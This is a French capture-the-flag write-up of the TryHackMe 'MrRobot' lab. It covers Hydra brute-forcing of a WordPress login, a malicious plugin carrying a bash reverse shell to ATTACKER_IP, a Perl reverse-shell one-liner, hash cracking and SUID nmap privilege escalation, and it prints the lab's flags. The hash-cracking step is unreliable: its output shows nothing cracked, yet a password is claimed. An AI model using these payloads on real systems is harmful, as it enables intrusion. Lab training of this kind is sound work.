




# TryHackMe - MrRobot Write-up 🇫🇷

## Introduction

Salut à tous ! 

Voici mon write-up de la room "MrRobot" — une exploration dans les bases de l'exploitation WordPress et des techniques d'élévation de privilèges.

Ce write-up couvre l'exploitation de la room MrRobot sur TryHackMe, classée comme facile.

Comme d'habitude, tout au long de ce guide, je vais passer en revue les étapes courantes d’un test de pénétration :

- Reconnaissance
- Exploitation
- Post-exploitation

## Informations

- 🛠️ **Type de machine** : Linux
- **🧠 Compétences principales testées** : Exploitation Web, WordPress, Énumération locale, Élévation de privilèges
- **📦 Outils utilisés** : Nmap, Ffuf, Curl, Netcat, WP-scan, Wappalyzer, Pwncat, Perl, Hydra

Cette machine est une excellente opportunité pour pratiquer les bases de l'énumération (interne/externe), l'énumération/exploitation de WordPress et quelques techniques d'élévation de privilèges.

C’est partie !

---

## Préparation

Tout d'abord, nous pouvons ajouter l'adresse IP cible au fichier `/etc/hosts` pour faciliter l'interaction avec la machine cible.

```bash
echo "10.10.135.61 target" | sudo tee -a /etc/hosts
```

Cela nous permet d'accéder à l'adresse IP `10.10.135.61` via le nom suivant : `target`

---

## Reconnaissance initiale et observations

Comme d'habitude au début d’une reconnaissance, j'aime effectuer un simple scan agressif en utilisant Nmap.

Pour ce faire, nous pouvons utiliser la commande suivante :

```bash
nmap -A -oN scan.txt -oX scan.xml target
```

**Explication de la commande** : Nous commençons un scan Nmap en utilisant le modèle agressif (`-A`), puis nous spécifions d'enregistrer le résultat dans deux fichiers nommés respectivement `scan.xml` et `scan.txt` — un fichier XML en utilisant le flag `-oX` et un fichier texte avec le flag `-oN`.

Mettons tout cela dans un tableau pour faciliter la lecture en utilisant [Nmap2Table](https://github.com/0xMR007/Nmap2Table) et notre fichier XML précédent :

### Hôte : 10.10.135.61 (target)

| Port/Protocole | État | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80/tcp | open | http | Apache httpd |
| 443/tcp | open | http | Apache httpd |

### Scripts NSE :

```bash
Port 22 :
ssh-hostkey:
3072 76:16:3e:e0:1b:47:03:68:f1:3a:88:59:22:38:bc:23 (RSA)
256 31:f2:14:7f:c8:45:eb:57:9e:9b:f4:68:cd:f8:7b:cb (ECDSA)
256 14:3c:12:cf:6f:d4:c2:15:69:45:11:a8:a2:d7:79:8a (ED25519)

Port 80 :
http-server-header: Apache
http-title: Site doesn't have a title (text/html).

Port 443 :
ssl-cert:
Subject: commonName=www.example.com
Not valid before: 2015-09-16T10:45:03
Not valid after: 2025-09-13T10:45:03
http-title: Site doesn't have a title (text/html).
http-server-header: Apache

```

D’après le scan, il n'y a que 3 ports ouverts. Résumons les résultats du scan :

- Port 22 : Le port SSH est ouvert et exécute OpenSSH 8.2p1. La machine semble fonctionner sous Ubuntu → La machine cible fonctionne sous Linux.
- Port 80 : Le port HTTP est ouvert → La machine cible est un serveur web exécutant le service Apache.
- Port 443 : HTTPS semble être activé → Le serveur sert les deux ports web par défaut exécutant Apache.

Pour nous assurer de ne rien manquer d'intéressant pendant notre phase d'énumération, nous pouvons effectuer un scan SYN sur tous les ports TCP en utilisant le drapeau `-p-`.

```bash
nmap -sS --min-rate=1500 -p- target

```

**Note : Ici l’option `--min-rate=1500` permet d’accélerer le scan.**

## Énumération Web

Jusqu'à présent, tout ce que nous savons, c'est que la machine cible semble être un serveur web Linux exécutant Apache sur HTTP et HTTPS.

En utilisant un navigateur et en allant sur `http://target/` ou `https://target/`, nous obtenons le même résultat : un site web sous le thème de Mr. Robot. J'ai donc choisi celui qui fonctionne sur HTTP et me suis concentré sur celui-ci. Vous pouvez toujours choisir celui sous HTTPS, même si je ne l’ai pas essayé (les étapes devraient être plus ou moins les mêmes).

Tout d'abord, explorons le site web en utilisant `ffuf` pour une meilleure compréhension du serveur web.

La sortie sera assez conséquente, mais pas de soucis, nous souhaitons seulement juste jeter un rapide coup d'œil.

```bash
ffuf -u http://target/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://target/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 108ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 115ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 120ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 350ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 296ms]
admin                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 78ms]
audio                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 118ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 166ms]
blog                    [Status: 301, Size: 227, Words: 14, Lines: 8, Duration: 77ms]
css                     [Status: 301, Size: 226, Words: 14, Lines: 8, Duration: 68ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 279ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 371ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 314ms]
images                  [Status: 301, Size: 229, Words: 14, Lines: 8, Duration: 74ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 330ms]
index.html              [Status: 200, Size: 1104, Words: 189, Lines: 31, Duration: 76ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 372ms]
js                      [Status: 301, Size: 225, Words: 14, Lines: 8, Duration: 73ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 130ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 267ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 113ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 318ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 85ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 92ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 323ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 71ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 71ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 278ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 289ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 182ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 168ms]
video                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 980ms]
wp-admin                [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 100ms]
wp-content              [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 75ms]
wp-includes             [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 116ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 290ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 295ms]
wp-login                [Status: 200, Size: 2564, Words: 115, Lines: 53, Duration: 382ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 395ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 396ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 323ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 377ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 324ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 707ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 721ms]
:: Progress: [4746/4746] :: Job [1/1] :: 122 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
```

À partir de ce résultat, on peut noter certaines informations importantes:

- Le site web fonctionne effectivement sous WordPress ! (endpoints commençant par `wp-*`)
- La page de connexion WordPress est disponible (code HTTP 200)
- Le fameux fichier `robots.txt` est disponible → Nous devrions vérifier son contenu

Jetons un coup d'œil au fichier `robots.txt`.



Bien ! Il semble que 2 fichiers soient présents… intéressant.

Voyons si nous pouvons accéder à ceux-ci en utilisant notre navigateur.



Parfait ! Nous avons obtenu notre première clé → `073403c8a58a1f80d943455fb30724b9` facile, non ?

En vérifiant l'autre fichier, il semble être un fichier dictionnaire ou une liste de mots → Il pourrait être utile pour une attaque par force brute → Téléchargeons-le en utilisant curl au cas où.

```bash
curl <http://target/fsocity.dic> -o fsocity.dic

```

Comme nous le savons déjà, le site web utilise WordPress, alors effectuons un simple wpscan pour voir si nous pouvons obtenir plus d'informations.

```bash
wpscan --url <http://target/>
```

Bien, nous avons maintenant de nouvelles informations :

- La version de WordPress est 4.3.1 → Une ancienne version potentiellement non sécurisée.
- Un thème nommé twentyfifteen est présent

J'ai fait quelques recherches mais je n'ai rien trouvé d'utile pour nous.

Ensuite, je me suis souvenu qu'il y avait une page wp-login. Voyons si nous pouvons effectuer une attaque par force brute en utilisant Hydra !

Tout d'abord, envoyons une requête de test et interceptons-la en utilisant Burp Suite et l'extension de navigateur FoxyProxy.

Pour les non-initiés/débutants à Burp Suite, voici quelques liens utiles:

- [Intercepting HTTP Traffic with Burp Suite](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)
- [Intercept Browser Traffic in Burp Suite Proxy](https://www.studytonight.com/post/intercept-browser-traffic-in-burpsuite-proxy)



La requête nous donne les 2 paramètres utilisés pour la connexion : `log` et `pwd`, ceux-ci seront utiles pour l'étape suivante.

Vous vous souvenez du fichier dictionnaire que nous avons récupéré au début ? Nous allons l'utiliser maintenant.

Si vous êtes curieux et que vous avez jeté un rapide coup d'œil, vous devriez avoir remarqué qu'il y a beaucoup de doublons.

Pour les supprimer, nous pouvons utiliser la commande suivante :

```bash
sort fsocity.dic | uniq > fsocity_uniq.dic
```

Ici, nous trions d'abord le fichier `fsocity.dic`, puis, en utilisant la commande `uniq`, nous supprimons tous les doublons de la sortie précédente en utilisant un pipe `|`.

```bash
hydra -L fsocity_uniq.dic -p test target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2025-08-03 12:07:54
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:11452/p:1), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 5435.00 tries/min, 5435 tries in 00:01h, 6017 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: test
[80][http-post-form] host: target   login: ELLIOT   password: test
[80][http-post-form] host: target   login: Elliot   password: test
[STATUS] 5516.50 tries/min, 11033 tries in 00:02h, 419 to do in 00:01h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

**Explication de la commande :**

- `L` : Drapeau utilisé pour spécifier un fichier dictionnaire de noms d'utilisateur → effectue une force brute sur le nom d'utilisateur
- `p` : Drapeau utilisé pour spécifier un mot de passe statique → le mot de passe ne changera pas
- `target` : Adresse IP ou nom de domaine de la cible
- `http-post-form` : Module utilisé pour effectuer la force brute → Nous essayons de nous connecter via une requête HTTP POST
- `t 64` : Drapeau utilisé pour spécifier un nombre de threads (parallélisation de la force brute) → pour effectuer plus d'essais par tâche.

**Note : La partie `"/wp-login.php:log=^USER^&pwd=^PASS^...` peut faire peur au premier abord mais en réalité elle suit simplement la syntaxe suivante : `"<url>:<post_data>:<failure_string>"`.**

- `<url>` : Chemin d'accès à la page de connexion. Ici, il s'agit de `/wp-login.php`.
- `<post_data>` : Données POST à envoyer. Il s'agit de la ligne de la capture d'écran précédente de Burp Suite (voir ci-dessous). Notez que nous avons remplacé les valeurs statiques par les variables Hydra à l'aide d'une paire de `^`.
- `<failure_string>` : Chaîne de caractères apparaissant dans la réponse en cas d'échec de connexion. Ici, nous utiliserons `F=Invalid username`.


Lien utile : [Hydra HTTP post form module](https://labex.io/tutorials/hydra-explore-hydra-module-specific-options-550767)

Super ! Un utilisateur elliot semble exister et nous pouvons également noter que la casse n'est pas importante.

Maintenant que nous avons un nom d'utilisateur disponible sur le site WordPress, peut-être pouvons-nous forcer son mot de passe aussi, non ? Essayons de le faire !

```bash
hydra -l elliot -P fsocity_uniq.dic target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered" -t 64 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2025-08-03 12:11:43
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:1/p:11452), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered
[STATUS] 4796.00 tries/min, 4796 tries in 00:01h, 6656 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (<https://github.com/vanhauser-thc/thc-hydra>) finished at 2025-08-03 12:12:55

```

**Explication de la commande : Nous venons de changer le -L en -P et vice versa pour les arguments; sinon, il s’agit de la même commande.**

Parfait ! Nous avons maintenant les informations de connexion complètes → elliot:ER28-0652

## Exploitation

Pour continuer, nous pouvons essayer de nous connecter à WordPress.



Connexion réussie ! Nous avons maintenant accès au panneau d'administration de WordPress → Jetons un coup d'œil pour voir quelles informations nous pouvons recueillir.

Après avoir regardé autour, tout ce que j'ai trouvé était :

- Il y a deux utilisateurs : **elliot** qui est administrateur et **mich05654** juste un abonné
- Nous semblons avoir un accès complet : nous pouvons donc ajouter des thèmes, des plugins, etc.

La première chose à laquelle j'ai pensé était d’envoyer un plugin/thème malveillant pour obtenir un reverse shell sur la machine cible.

Créons d'abord notre fichier malveillant.

```bash
touch php-reverse-shell.php
```

À l'intérieur, nous pouvons écrire un simple payload malveillant en PHP → Cela nous permettra d'obtenir un reverse shell sur la machine cible.

```php
<?php
/*
Plugin Name: PHP Reverse Shell
Plugin URI: <http://fakeurl.xyz/>
Description: Just a test plugin ;)
Version: 1.0
Author: MRx0
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>

```

N'oubliez pas de compléter les champs suivants : **ATTACKER_IP, PORT**

Ensuite, nous configurons notre écouteur pwncat pour obtenir un reverse shell propre et mis à niveau.

**Note :** Vous pouvez également utiliser netcat et le mettre à niveau vous-même en utilisant netcat et le lien suivant [Mettre à niveau un reverse shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) mais personnellement, je préfère utiliser pwncat

```bash
pwncat -lp 4444
```

Après cela, nous préparons notre fichier zip en respectant la structure suivante :

```
php-reverse-shell/
└── php-reverse-shell.php # Fichier malveillant
```

Nous pouvons le faire en utilisant les commandes suivantes

```bash
mkdir php-reverse-shell
mv php-reverse-shell.php php-reverse-shell/
zip -r php-reverse-shell.zip php-reverse-shell/
```

Maintenant que nous avons notre fichier zip, nous pouvons essayer de l’envoyer en tant que plugin.


Il semble que notre fichier ait été envoyé avec succès. Parfait !

Cliquez sur **Activer le plugin**

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈! __main__.py:164
[13:13:44] received connection from 10.10.135.61:40554 bind.py:84
[13:13:46] 10.10.135.61:40554: registered new host w/ db manager.py:957
(local) pwncat$ # Utilisez CTRL + D pour interagir avec la machine cible
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$

```

Notre attaque a réussi ! Nous avons réussi à obtenir un reverse shell sur la machine cible, voyons ce que nous pouvons faire ensuite !

## Post-exploitation

La room est presque terminée, continuez comme ça !

Pour commencer cette phase, j'aime jeter un coup d'œil rapide dans le répertoire `/home`.

```bash
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$ cd /home/robot/
(remote) daemon@ip-10-10-135-61:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 4 root root 4096 Jun 2 18:14 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5

```

Nous avons trouvé un utilisateur intéressant nommé **robot** dans son répertoire personnel, nous découvrons 2 fichiers intéressants `key-2-of-3.txt` et `password.raw-md5`.

Bien que nous n'ayons pas l'autorisation de lecture sur `key-2-of-3.txt`, j'ai tout de même essayé de vérifier son contenu mais cela a échoué.

J'ai donc vérifié l'autre fichier qui semble être un hashMD5 → mot de passe de l'utilisateur **robot** ? Peut-être bien :).

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
(remote) daemon@ip-10-10-135-61:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

Ensuite, j'ai utilisé l'outil John pour le cracker en utilisant la liste de mots rockyou. Au début, il a donné une sortie très désordonnée et n'a pas réussi à le cracker.

```bash
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

Heureusement pour nous, le format du hash est indiqué dans le nom du fichier → Hash MD5

Essayons de le cracker en utilisant le spécificateur de format MD5 (`--format=Raw-MD5`) pour John

```bash
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Warning: detected hash type "LM", but the string is also recognized as "dynamic=md5($p)"
Use the "--format=dynamic=md5($p)" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "HAVAL-128-4"
Use the "--format=HAVAL-128-4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "MD2"
Use the "--format=MD2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mdc2"
Use the "--format=mdc2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash"
Use the "--format=mscash" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash2"
Use the "--format=mscash2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD4"
Use the "--format=Raw-MD4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5"
Use the "--format=Raw-MD5" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5u"
Use the "--format=Raw-MD5u" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "ripemd-128"
Use the "--format=ripemd-128" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Snefru-128"
Use the "--format=Snefru-128" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "ZipMonster"
Use the "--format=ZipMonster" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 2 password hashes with no different salts (LM [DES 128/128 SSE2])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2025-08-03 13:22) 0g/s 8173Kp/s 8173Kc/s 16347KC/s !WHOA!1..*7¡VA
Session completed.

```

Eh bien, c'était facile ! Le mot de passe que nous avons réussi à récupérer est `abcdefghijklmnopqrstuvwxyz`.

Nous pouvons essayer de nous connecter en tant qu'utilisateur robot pour vérifier si c'est son mot de passe

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ su robot
Password:
(remote) robot@ip-10-10-135-61:/home/robot$
```

Cela a fonctionné à nouveau ! Nous pouvons maintenant interagir avec la machine cible en tant qu'utilisateur **robot**.

Vous pouvez également vous connecter en utilisant SSH car OpenSSH est en cours d'exécution sur la machine cible.

```bash
ssh robot@target
robot@target's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
```

```bash
$ ls
key-2-of-3.txt password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

Nous avons finalement obtenu la deuxième clé qui est : `822c73956184f694993bede3eb39f959`

Vous remarquerez probablement que le shell obtenu (même le shell SSH) n'est pas mis à niveau. Si vous êtes comme moi et que vous souhaitez obtenir un shell propre et mis à niveau, nous pouvons utiliser **pwncat** à nouveau.

Nous devons changer le port d'écoute car le `4444` est déjà pris.

```bash
pwncat -lp 4433
```

En utilisant la commande `which`, j'ai découvert que **Perl** est disponible sur la machine cible.

Nous pouvons l'utiliser pour obtenir un deuxième reverse shell en utilisant la commande suivante.

```bash
which perl
/usr/bin/perl # Perl semble être disponible

perl -e 'use Socket;$i="ATTACKER_IP";$p=4433;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

```

```bash
pwncat -lp 4433
[13:36:46] Welcome to pwncat 🐈! __main__.py:164
[13:37:23] received connection from 10.10.135.61:52852 bind.py:84
[13:37:24] 0.0.0.0:4433: upgrading from /bin/dash to /bin/bash manager.py:957
[13:37:25] 10.10.135.61:52852: registered new host w/ db manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) robot@ip-10-10-135-61:/home/robot$
```

Nous avons finalement obtenu notre reverse shell entièrement fonctionnel.

Maintenant, en tant qu'utilisateur robot, nous ne pouvons pas faire grand-chose → nous devons escalader nos privilèges.

Tout d'abord, une bonne habitude à avoir est de vérifier s'il y a des fichiers SUID.

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

Il y a bien des fichiers SUID présents, mais nous devons nous concentrer sur celui qui semble le plus étrange d'avoir SUID activé.

Celui de Nmap devrait vous interpeller → En utilisant GTFObins ([GTFObins](https://gtfobins.github.io/)), il semble que nous puissions obtenir des privilèges root en utilisant l'option -oG ! Essayons cela

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ nmap --interactive
Starting nmap V. 3.81 ( <http://www.insecure.org/nmap/> )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
nmap> ls -la /root
total 44
drwx------ 7 root root 4096 Jun 2 18:26 .
drwxr-xr-x 23 root root 4096 Aug 3 13:25 ..
-rw------- 1 root root 0 Jun 2 18:26 .bash_history
-rw-r--r-- 1 root root 3274 Sep 16 2015 .bashrc
drwx------ 3 root root 4096 May 29 15:36 .cache
drwx------ 3 root root 4096 May 29 15:36 .config
-rw-r--r-- 1 root root 0 Nov 13 2015 firstboot_done
drwx------ 3 root root 4096 May 29 16:58 .gnupg
-r-------- 1 root root 33 Nov 13 2015 key-3-of-3.txt
drwxr-xr-x 3 root root 4096 May 29 17:26 .local
-rw-r--r-- 1 root root 161 Jan 2 2024 .profile
-rw------- 1 root root 1024 Sep 16 2015 .rnd
drwx------ 2 root root 4096 May 29 15:20 .ssh
-rw------- 1 root root 0 Jun 2 18:26 .viminfo
nmap> cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

```

